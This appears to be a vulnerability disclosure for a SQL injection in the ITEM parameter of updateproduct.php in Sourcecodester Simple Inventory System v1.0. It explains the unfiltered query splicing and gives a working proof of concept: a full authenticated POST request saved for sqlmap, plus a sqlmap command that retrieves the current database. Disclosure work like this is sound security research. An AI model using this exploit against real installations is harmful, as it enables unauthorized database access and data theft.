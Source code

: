 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：updateproduct.php

injection parameter:$_POST['ITEM']

#### 1.Vulnerability analysis

As shown in the figure below, in updateproduct.php, after the ITEM parameter is passed in through post, it is directly spliced into the SQL update statement without any security filtering, resulting in a SQL injection vulnerability. We can obtain any information in the database through time-based injection.

![image-20240517162130368](SourceCodester Simple Inventory System Sql Inject-4.assets/image-20240517162130368.png)

#### 2.Vulnerability verification and exploit

After admin/admin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
POST /updateproduct.php HTTP/1.1
Host: 10.15.6.184:82
Content-Length: 23
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.15.6.184:82
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.15.6.184:82/tableedit.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ncbt63bs17glrou5b79l17ifm6
Connection: close

ITEM=1&itemnumber=11111
```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240517165913203](SourceCodester Simple Inventory System Sql Inject-4.assets/image-20240517165913203.png)
